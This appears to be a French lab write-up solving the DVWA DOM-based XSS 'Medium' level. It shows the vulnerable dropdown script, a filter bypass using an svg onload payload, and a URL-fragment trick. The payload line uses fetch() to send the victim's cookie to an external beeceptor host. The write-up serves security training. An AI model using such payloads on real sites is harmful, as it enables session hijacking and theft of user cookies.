# Niveau "Medium"

Le niveau "Medium" repose sur le même principe : l'utilisateur peut changer de langue et la nouvelle valeur est envoyée au serveur via la paramètre `default` :

![](../../../../.gitbook/assets/c24856e9891049e19d3e12a33c4a96ae.png)

![](../../../../.gitbook/assets/eba42bd97501443278169d3343a8c7e9.png)

Le script permettant de renseigner dynamiquement la valeur sélectionnée dans le liste déroulante est toujours le même :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
	</select>
	<input type="submit" value="Select" />
</form>
```

Si l'on tente de récupérer le jeton de notre victime en laissant l'envoi du paramètre au serveur nous recevons une redirection **`302`** qui requête une URL avec en paramètre une valeur whitelistée :

![](../../../../.gitbook/assets/f0938fc949d8eb827b9eba495e72684e.png)

Tentons de contourner la protection en place. Au bout de quelques essais il apparaît que le mot clé `<script>` soit filtré. Pas de problème, d'autres moyens existent :

```markup
http://192.168.56.203:8080/vulnerabilities/xss_d/?default="></option></select><svg onload="fetch('https://domxss.free.beeceptor.com?cookie='+document.cookie)">
```

![](../../../../.gitbook/assets/48c112771351914b8f74a66fd7795dca.png)

Nous recevons ainsi bien le cookie de la victime :

![](../../../../.gitbook/assets/173658120faea612b95bc67947d79b2c.png)

Mais comme vu précédemment, il est possible de valider très simplement ce challenge en utilisant la mécanique du fragment URL :

![](../../../../.gitbook/assets/bb22cf9fed7c4dd0fab695f076c19a3c.png)

Cela permet de s'affranchir complètement de la vérification effectuée côté serveur :

![](../../../../.gitbook/assets/b7a4c0b328dde5512c704cbd4402dc5e.png)

